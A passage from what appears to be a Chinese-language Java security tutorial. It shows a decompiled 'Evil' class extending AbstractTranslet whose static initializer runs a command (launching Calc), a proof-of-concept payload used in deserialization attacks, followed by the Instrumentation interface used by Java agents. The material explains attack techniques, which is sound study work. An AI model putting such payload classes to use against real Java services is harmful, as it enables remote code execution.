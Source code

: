 生成的恶意文件被我们输出到了 `S` 这个文件中，其实很多反序列化在用的时候，是没有把这个字节码提取保存出来，本质上还是可以保存的。

保存出来的文件代码如下

```java
//  
// Source code recreated from a .class file by IntelliJ IDEA  
// (powered by FernFlower decompiler)  
//  
  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
  
public class Evil extends AbstractTranslet {  
    static {  
        try {  
            Runtime.getRuntime().exec("Calc");  
        } catch (Exception var1) {  
        }  
  
    }  
  
    public Evil() {  
    }  
}
```

---

#### Instrumentation

Instrumentation 是 JVMTIAgent（JVM Tool Interface Agent）的一部分，Java agent 通过这个类和目标 JVM 进行交互，从而达到修改数据的效果。

其在 Java 中是一个接口，常用方法如下

```java
public interface Instrumentation {
    
    //增加一个Class 文件的转换器，转换器用于改变 Class 二进制流的数据，参数 canRetransform 设置是否允许重新转换。
    void addTransformer(ClassFileTransformer transformer, boolean canRetransform);
 
    //在类加载之前，重新定义 Class 文件，ClassDefinition 表示对一个类新的定义，如果在类加载之后，需要使用 retransformClasses 方法重新定义。addTransformer方法配置之后，后续的类加载都会被Transformer拦截。对于已经加载过的类，可以执行retransformClasses来重新触发这个Transformer的拦截。类加载的字节码被修改后，除非再次被retransform，否则不会恢复。
    void addTransformer(ClassFileTransformer transformer);
 
    //删除一个类转换器
    boolean removeTransformer(ClassFileTransformer transformer);
 
 
    //在类加载之后，重新定义 Class。这个很重要，该方法是1.6 之后加入的，事实上，该方法是 update 了一个类。
    void retransformClasses(Class<?>... classes) throws UnmodifiableClassException;
 
 
 
    //判断一个类是否被修改
    boolean isModifiableClass(Class<?> theClass);
 
    // 获取目标已经加载的类。
    @SuppressWarnings("rawtypes")
    Class[] getAllLoadedClasses();
 
    //获取一个对象的大小
    long getObjectSize(Object objectToSize);
 
}
```